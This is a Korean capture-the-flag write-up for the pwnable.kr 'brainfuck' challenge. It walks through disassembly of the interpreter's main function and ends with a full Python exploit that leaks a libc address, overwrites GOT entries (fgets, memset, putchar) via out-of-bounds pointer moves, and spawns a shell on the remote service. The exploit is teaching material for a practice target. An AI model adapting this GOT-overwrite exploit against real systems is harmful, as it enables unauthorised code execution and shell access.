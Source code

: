 ## brainfuck

## 문제

> I made a simple brain-fuck language emulation program written in C.  
> The \[ \] commands are not implemented yet. However the rest functionality seems working fine.  
> Find a bug and exploit it to get a shell.
>
> Download : [http://pwnable.kr/bin/bf](http://pwnable.kr/bin/bf)  
> Download : [http://pwnable.kr/bin/bf\_libc.so](http://pwnable.kr/bin/bf_libc.so)
>
> Running at : nc pwnable.kr 9001

## 소스 {#취약점}

문제에서 bf파일이 ELF 파일이고 bf\_libc.so는 동적 라이브러리 파일입니다. 참고하시기 바랍니다.

## 취약점 {#취약점}

* 일반적인 난해한 프로그래밍 언어가 그러하듯 브레인퍽에서도 포인터를 이용한다.
* 소스가 공개되어 있다.

## 힌트 {#힌트}

* [PLT&GOT](/system/plt-and-got.md) 익스플로잇
* netcat를 이용한 스크립트 작성

## 공략 {#공략}

대부분의 공개된 공략법은 영문, 중문으로 되어 있고 또한 파이썬 pwn 라이브러리를 이용하였습니다만 이 공략에서는 pwn 라이브러리를 이용하지 않고 공략하는 방법을 서술하였습니다.

브레인퍽은 &lt;&gt;,.+-\[\]만을 이용한 프로그래밍 언어입니다. 하지만 이 프로그램에서는 \[와 \]가 구현되지 않았다고 합니다. 포인터 p가 unsigned char\*이라고 할때 기능은 다음 표와 같습니다.

| 연산자 | 효과 |
| :---: | :--- |
| &gt; | ++ptr |
| &lt; | --ptr |
| + | ++\*ptr |
| - | --\*ptr |
| . | putchar\(\*ptr\) |
| , | \*ptr=getchar\(\); |

> 이 문제에서 bf파일은 정확히 말하면 C로 구현된 bf 컴파일러라고 봐야 맞습니다. 각 부호마다의 기능은 참조 페이지 혹은 인터넷을 참조해주시기 바랍니다. 매우 심플하기 때문에 배우는 것은 어렵지 않습니다. 다만 쓰기가 힘들뿐이죠.

&gt;&lt; 연산자를 이용해 포인터의 위치를 프로그램 할당 메모리 안에서 자유자제로 움직일 수 있습니다. C 위에서 돌아가는 프로그램이기 때문에 포인터를 조작한다는 것은 매우 강력한 무기임과 동시에 프로그램에서 가장 큰 취약점입니다.

우선 main을 보도록 하죠. gdb로 보셔도 되지만 IDA로 보시면 좀더 명확하게 보실 수 있습니다.

```
.text:08048671                 push    ebp
.text:08048672                 mov     ebp, esp
.text:08048674                 push    ebx
.text:08048675                 and     esp, 0FFFFFFF0h
.text:08048678                 sub     esp, 430h       ; char *
.text:0804867E                 mov     eax, [ebp+arg_4]
.text:08048681                 mov     [esp+434h+var_418], eax
.text:08048685                 mov     eax, large gs:14h
.text:0804868B                 mov     [esp+434h+var_8], eax
.text:08048692                 xor     eax, eax
.text:08048694                 mov     eax, ds:stdout@@GLIBC_2_0
.text:08048699                 mov     [esp+434h+var_428], 0
.text:080486A1                 mov     [esp+434h+var_42C], 2
.text:080486A9                 mov     [esp+434h+var_430], 0
.text:080486B1                 mov     [esp+434h+var_434], eax
.text:080486B4                 call    _setvbuf
.text:080486B9                 mov     eax, ds:stdin@@GLIBC_2_0
.text:080486BE                 mov     [esp+434h+var_428], 0
.text:080486C6                 mov     [esp+434h+var_42C], 1
.text:080486CE                 mov     [esp+434h+var_430], 0
.text:080486D6                 mov     [esp+434h+var_434], eax
.text:080486D9                 call    _setvbuf
.text:080486DE                 mov     ds:p, offset tape
.text:080486E8                 mov     [esp+434h+var_434], offset aWelcomeToBrain ; "welcome to brainfuck testing system!!"
.text:080486EF                 call    _puts
.text:080486F4                 mov     [esp+434h+var_434], offset aTypeSomeBrainf ; "type some brainfuck instructions except"...
.text:080486FB                 call    _puts
.text:08048700                 mov     [esp+434h+var_42C], 400h
.text:08048708                 mov     [esp+434h+var_430], 0
.text:08048710                 lea     eax, [esp+434h+var_408]
.text:08048714                 mov     [esp+434h+var_434], eax
.text:08048717                 call    _memset
.text:0804871C                 mov     eax, ds:stdin@@GLIBC_2_0
.text:08048721                 mov     [esp+434h+var_42C], eax
.text:08048725                 mov     [esp+434h+var_430], 400h
.text:0804872D                 lea     eax, [esp+434h+var_408]
.text:08048731                 mov     [esp+434h+var_434], eax
.text:08048734                 call    _fgets
.text:08048739                 mov     [esp+434h+var_40C], 0
.text:08048741                 jmp     short loc_8048760
.text:08048743 ; 컴컴컴컴컴컴컴컴컴컴컴컴컴컴컴컴컴컴컴컴컴컴컴컴컴컴컴컴컴컴컴컴컴컴컴컴컴?
.text:08048743
.text:08048743 loc_8048743:                            ; CODE XREF: main+101j
.text:08048743                 lea     edx, [esp+434h+var_408]
.text:08048747                 mov     eax, [esp+434h+var_40C]
.text:0804874B                 add     eax, edx
.text:0804874D                 movzx   eax, byte ptr [eax]
.text:08048750                 movsx   eax, al
.text:08048753                 mov     [esp+434h+var_434], eax
.text:08048756                 call    do_brainfuck
.text:0804875B                 add     [esp+434h+var_40C], 1
.text:08048760
.text:08048760 loc_8048760:                            ; CODE XREF: main+D0j
.text:08048760                 mov     ebx, [esp+434h+var_40C]
.text:08048764                 lea     eax, [esp+434h+var_408]
.text:08048768                 mov     [esp+434h+var_434], eax
.text:0804876B                 call    _strlen
.text:08048770                 cmp     ebx, eax
.text:08048772                 jb      short loc_8048743
.text:08048774                 mov     eax, 0
.text:08048779                 mov     edx, [esp+434h+var_8]
.text:08048780                 xor     edx, large gs:14h
.text:08048787                 jz      short loc_804878E
.text:08048789                 call    ___stack_chk_fail
.text:0804878E
.text:0804878E loc_804878E:                            ; CODE XREF: main+116j
.text:0804878E                 mov     ebx, [ebp+var_4]
.text:08048791                 leave
.text:08048792                 retn
.text:08048792 main            endp
```

필요없는 것들, 모르겠는 것들 빼고 천천히 보다보가   
    .text:080486DE                 mov     ds:p, offset tape  
보아하니 p포인터에 tape 주소를 넣는 것 같네요. 그 밑에는 환영인사를 출력하네요. 좀더 밑으로 내려가면   
    .text:08048717                 call    _memset  
.text:08048717에서 memset을 호출하네요. gdb에서는   
    0x08048717 &lt;+166&gt;:    call   0x80484c0 &lt;memset@plt&gt;  
이렇게 나타내는데 아무래도 IDA에서는 _로 시작하는 함수 호출은 plt를 나타내는 것 같습니다. 여기서는 입력받기 전에 메모리를 초기화 하는가 봅니다. 좀더 내려가보면   
    .text:08048734                 call    _fgets  
가 있습니다. 아무래도 스크립트를 입력받는 것 같죠? 또 읽다보면 유일하게 \_가 붙지 않은 함수 호출을 볼 수 있습니다.

    .text:08048756                 call    do\_brainfuck

함수명을 보아하니 아까 입력받은 fgets 스크립트를 여기서 분석하고 실행하는가 보네요.



## 참고 페이지

* [https://tuonilabs.wordpress.com/2016/12/08/pwnable-kr-rookiss-write-up/](https://tuonilabs.wordpress.com/2016/12/08/pwnable-kr-rookiss-write-up/)

* [https://namu.wiki/w/BrainFuck](https://namu.wiki/w/BrainFuck)

```python
import nclib
import time
import binascii

nc = nclib.Netcat(("pwnable.kr", 9001))
time.sleep(2)
print(nc.recv())

# bf
p = tape     = 0x0804a0a0
got_fgets    = 0x0804a010
got_memset   = 0x0804a02c

# bf_libc.so
so_fgets    = 0x0005d540
so_system   = 0x0003a920
so_gets     = 0x0005e770
main        = 0x08048671


# script
str=""
# 포인터를 fgets@GOT로 가리킴
str+='<'*(p-got_fgets)
# fgets@GOT 주소 출력
str+='.>'*4
# fgets@GOT 주소 삭제
str+='<'*4
# fgets@GOT 주소를 call system으로 수정
str+=',>'*4
# 포인터를 memset@GOT로 가리킴. memset@GOT - fgets@GOT
str+='<'*4 + '>' * (got_memset - got_fgets)
# memset@GOT 주소를 call fgets로 수정
str+=',>'*4
# putchar@GOT를 main 시작 주소로 수정
str+=',>'*4
# putchar(=main) 호출
str+='.'
# end
str+='\n'
nc.send(str.encode())
time.sleep(1)

# fgets_addr = int(binascii.hexlify(nc.recv()), 16)
addr = nc.recv(4)
fgets_addr = int.from_bytes(addr, byteorder='little')
system_addr = fgets_addr - so_fgets + so_system
gets_addr = fgets_addr - so_fgets + so_gets
print('fgets_addr :', hex(fgets_addr))
print('system_addr :', hex(system_addr))
print('gets_addr :', hex(gets_addr))
print('main_addr :', hex(main))
nc.send(system_addr.to_bytes(4, byteorder='little'))
nc.send(gets_addr.to_bytes(4, byteorder='little'))
nc.send(main.to_bytes(4, byteorder='little'))
nc.send(b'/bin/sh\n')

nc.interact()
```



